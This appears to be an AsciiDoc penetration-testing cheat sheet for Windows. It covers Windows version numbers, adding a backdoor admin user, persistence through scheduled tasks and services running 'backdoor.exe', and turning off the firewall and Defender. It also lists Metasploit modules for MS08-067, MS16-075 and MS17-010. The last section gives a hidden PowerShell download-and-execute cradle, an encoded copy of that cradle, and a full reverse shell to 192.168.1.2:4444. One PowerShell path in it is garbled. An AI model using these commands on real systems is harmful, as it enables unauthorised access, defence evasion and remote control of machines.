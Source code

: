 === Windows

==== Version Numbers

[cols="1,3"]
|===
|NT 5.0  |2000
|NT 5.1  |XP 32bit
|NT 5.2  |XP 64bit, Server 2003, Server 2003 R2
|NT 6.0  |Vista, Server 2008
|NT 6.1  |7, Server 2008 R2
|NT 6.2  |8, Server 2012
|NT 6.3  |8.1, Server 2012 R2
|NT 10.0 |10, Server 2016, Server 2019
|===

==== User Management

  net user brimstone password /add

Add user with the username `brimstone` and password `password`.

  net localgroup administrators brimstone /add

Add `brimstone` to the local administrators group.

  echo %computername%\%username%

Get current username on XP or when `whoami` fails.

==== Scheduled Tasks

  schtasks /create /tn task name /ru system /sc onlogon /tr backdoor.exe

Run task on user logon.

  schtasks /create /tn task name /ru system /sc onstart /tr backdoor.exe

Run task on system start.

  schtasks /create /tn task name /sc onidle /i 30 /tr backdoor.exe

Run task on user idle for 30 minutes.

<<<

==== Service Management

  sc query state=all

Show services.

  sc create backdoor binPath= "c:\backdoor.exe"

Create new service with `backdoor.exe`. Must include quotes.


==== Firewall

  netsh firewall set opmode mode=DISABLE

Disable on XP/2003

  netsh advfirewall set  currentprofile state off

Disable on 7 and later

  netsh advfirewall firewall add rule name="Allow Port 4444" protocol=TCP dir=out remoteport=4444 action=allow

Allow a port.

  netsh advfirewall firewall add rule name="IP Allow" dir=in interface=any action=allow remoteip=192.168.1.2/32

Allow a host.

  netsh advfirewall firewall add rule name="Program Allow" program="c:\backdoor.exe" protocol=tcp dir=in enable=yes action=allow

Allow a program.

<<<

==== Defender

  Set-MpPreference -DisableRealTimeMonitoring $true

Disable completely. Yields a ballon notification to logged on users.

  Add-MpPreference -ExclusionPath "C:\Temp"

Add excluded direectory.

  use post/windows/gather/enum_av_excluded

List off excluded directories from meterpreter session.

==== Find interesting things

  wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

wmic search unquoted paths

==== Exploits
===== MS08-067

[cols=">1,3"]
|===
|Affects           |XP, 2003
|Metasploit Module |exploit/windows/smb/ms08_067_netapi
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

===== MS16-075

[cols=">1,3"]
|===
|Affects           |Windows 7 on?
|Metasploit Module |exploit/windows/local/ms16_075_reflection_juicy
|Type              |local, privilege escalation
|===

Detection: Run `whoami /getprivs` and look for `SeImpersonate` or `SeAssignPrimaryToken`

===== MS17-010

[cols=">1,3"]
|===
|Affects           |Pretty much everything. XP through Windows 10
|Metasploit Module |exploit/windows/smb/ms17_010_psexec
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

<<<

==== Powershell

  C:\Windows\sjswow64\WindowsPowerShell\vl.O\powershell.exe

Location of 64bit ppowershell

  powershell.exe -w hidden -noni -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.2/script.ps1');"

Download a powershell script to memory and run it.

  powershell.exe -w hidden -noni -nop -enc SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xOTIuMTY4LjEuMi9zY3JpcHQucHMxJyk7Cg==

Same as above, but doesn't use either quote type.

  $client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();

Reverse shell

<<<
